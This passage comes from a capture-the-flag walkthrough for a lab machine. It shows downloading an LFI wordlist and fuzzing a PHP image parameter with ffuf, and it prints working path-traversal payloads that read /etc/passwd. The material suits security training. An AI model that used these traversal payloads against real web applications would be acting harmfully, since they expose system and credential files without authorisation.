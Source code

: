 First we can use [this wordlist](https://gist.github.com/erikandri/9c2f4605686d3a3abd81be8051455bf4), we can use `wget` to download it

```console
┌──(kali㉿kali)-[~/Include]
└─$ wget https://gist.githubusercontent.com/erikandri/9c2f4605686d3a3abd81be8051455bf4/raw/1feca668cef9840b3073b78e9c92879c5c307e0e/lfi-wordlist.txt
--2025-02-11 14:48:27--  https://gist.githubusercontent.com/erikandri/9c2f4605686d3a3abd81be8051455bf4/raw/1feca668cef9840b3073b78e9c92879c5c307e0e/lfi-wordlist.txt
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 534131 (522K) [text/plain]
Saving to: ‘lfi-wordlist.txt’

lfi-wordlist.txt                              100%[===============================================================================================>] 521.61K  --.-KB/s    in 0.08s   

2025-02-11 14:48:27 (6.04 MB/s) - ‘lfi-wordlist.txt’ saved [534131/534131]
```

Next we use `ffuf` to see if we can find a vulnerability here, remember to include the cookies for your sessions because otherwise you will not be able to access `profile.php` 

```console 
┌──(kali㉿kali)-[~/Include]
└─$ ffuf -H "Cookie: connect.sid=s%3AKdVDt_cc1VVnOPiTpL9uoBsrXZROPXSU.IUg%2FpAmJDSjlEaIh3DAZmjcdvxK8dGm3q8LvSjv5rAk; PHPSESSID=du3dc2tfhp81u6o8mlncemvt64" -u "http://10.10.218.26:50000/profile.php?img=FUZZ" -w lfi-wordlist.txt -fs 0  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.218.26:50000/profile.php?img=FUZZ
 :: Wordlist         : FUZZ: /home/kali/Include/lfi-wordlist.txt
 :: Header           : Cookie: connect.sid=s%3AKdVDt_cc1VVnOPiTpL9uoBsrXZROPXSU.IUg%2FpAmJDSjlEaIh3DAZmjcdvxK8dGm3q8LvSjv5rAk; PHPSESSID=du3dc2tfhp81u6o8mlncemvt64
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 84ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 86ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 87ms]
```